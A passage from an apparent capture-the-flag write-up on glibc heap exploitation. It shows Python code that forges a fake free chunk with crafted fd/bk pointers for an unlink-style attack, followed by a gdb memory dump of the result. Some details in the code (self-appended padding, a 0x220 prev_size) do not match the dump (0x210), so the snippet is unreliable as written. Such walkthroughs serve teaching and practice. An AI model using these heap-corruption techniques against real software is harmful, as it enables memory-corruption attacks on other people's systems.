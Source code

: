 Now its time to create chunk of size 0x400 and have a fake chunk of size 0x220 inside it.

```py
fake_chunk = p64(0) + p64(0x221)          #Faking a chunk of size 0x221 [which is the chunk allocated at a request of 0x217 also]
fake_chunk += p64(heap_base+0x150-0x18)   #Using the victim chunk to bypass fd and bk checks
fake_chunk += p64(heap_base+0x150-0x10)
fake_chunk += fake_chunk.ljust(0x210,'F') #Filling up the fake chunk
fake_chunk += p64(0x220) + p64(0x600)     #Why 0x600? Let's see!

add(0,'a'*0x400)
edit(0,fake_chunk)

```
Let's see how this setup looks in the memory.

```sh
gdb-peda$ 
0x55555555a570:	0x0033333333333333	0x0000000000000411 -> This is the chunk of size 0x400 that we added
0x55555555a580:	0x0000000000000000	0x0000000000000211 -> This is the fake free chunk we created 
0x55555555a590:	0x0000555555559138	0x0000555555559140 -> fd and bk have been set to point to victim
0x55555555a5a0:	0x4646464646464646	0x4646464646464646
0x55555555a5b0:	0x4646464646464646	0x4646464646464646
0x55555555a5c0:	0x4646464646464646	0x4646464646464646
0x55555555a5d0:	0x4646464646464646	0x4646464646464646
0x55555555a5e0:	0x4646464646464646	0x4646464646464646
0x55555555a5f0:	0x4646464646464646	0x4646464646464646
0x55555555a600:	0x4646464646464646	0x4646464646464646
0x55555555a610:	0x4646464646464646	0x4646464646464646
0x55555555a620:	0x4646464646464646	0x4646464646464646
0x55555555a630:	0x4646464646464646	0x4646464646464646
0x55555555a640:	0x4646464646464646	0x4646464646464646
0x55555555a650:	0x4646464646464646	0x4646464646464646
0x55555555a660:	0x4646464646464646	0x4646464646464646
0x55555555a670:	0x4646464646464646	0x4646464646464646
0x55555555a680:	0x4646464646464646	0x4646464646464646
0x55555555a690:	0x4646464646464646	0x4646464646464646
0x55555555a6a0:	0x4646464646464646	0x4646464646464646
0x55555555a6b0:	0x4646464646464646	0x4646464646464646
0x55555555a6c0:	0x4646464646464646	0x4646464646464646
0x55555555a6d0:	0x4646464646464646	0x4646464646464646
0x55555555a6e0:	0x4646464646464646	0x4646464646464646
0x55555555a6f0:	0x4646464646464646	0x4646464646464646
0x55555555a700:	0x4646464646464646	0x4646464646464646
0x55555555a710:	0x4646464646464646	0x4646464646464646
0x55555555a720:	0x4646464646464646	0x4646464646464646
0x55555555a730:	0x4646464646464646	0x4646464646464646
0x55555555a740:	0x4646464646464646	0x4646464646464646
0x55555555a750:	0x4646464646464646	0x4646464646464646
0x55555555a760:	0x4646464646464646	0x4646464646464646
0x55555555a770:	0x4646464646464646	0x4646464646464646
0x55555555a780:	0x4646464646464646	0x4646464646464646
gdb-peda$ 
0x55555555a790:	0x0000000000000210	0x0000000000000600  -> Another chunk of 0x600 set up to trick malloc into thinking that previous chunk is free
0x55555555a7a0:	0x6161616161616161	0x6161616161616161
0x55555555a7b0:	0x6161616161616161	0x6161616161616161
0x55555555a7c0:	0x6161616161616161	0x6161616161616161
0x55555555a7d0:	0x6161616161616161	0x6161616161616161
0x55555555a7e0:	0x6161616161616161	0x6161616161616161
0x55555555a7f0:	0x6161616161616161	0x6161616161616161
0x55555555a800:	0x6161616161616161	0x6161616161616161
0x55555555a810:	0x6161616161616161	0x6161616161616161
```